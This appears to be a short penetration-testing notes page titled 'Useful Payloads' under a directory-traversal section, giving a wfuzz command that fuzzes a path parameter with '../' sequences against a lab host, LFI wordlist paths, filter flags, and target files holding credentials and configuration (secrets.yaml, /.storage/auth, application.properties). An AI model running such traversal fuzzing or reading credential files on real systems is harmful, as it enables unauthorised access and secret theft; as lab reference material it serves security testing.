 ```yaml
---
title: Useful Payloads
layout: default
parent: Directory Traversal
has_children: false
nav_order: 1
---
```


1\. To use `wfuzz` to fuzz for possible directory traversal (in example below, hide 404, hide 81 to 125 characters):\
Alternative wordlist to try:\
`/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt`\
`/usr/share/seclists/Fuzzing/LFI/LFI-linux-and-windows_by-1N3@CrowdShield.txt`

`wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 --hh 81,125 http://dirTravSandbox/relativePathing.php?path=../../../../../../../../../../../../FUZZ`

```
--hs/ss "regex" #Hide/Show
#Simple example, match a string: "Invalid username"
#Regex example: "Invalid *"

--hc/sc CODE #Hide/Show by code in response
--hl/sl NUM #Hide/Show by number of lines in response
--hw/sw NUM #Hide/Show by number of words in response
--hh/sh NUM #Hide/Show by number of chars in response
--hc/sc NUM #Hide/Show by response code
```

2\. Interesting files to look at:
```
/.storage/auth
secrets.yaml
```

3\. Spring configuration files:
```
/config/application.properties
application.properties
```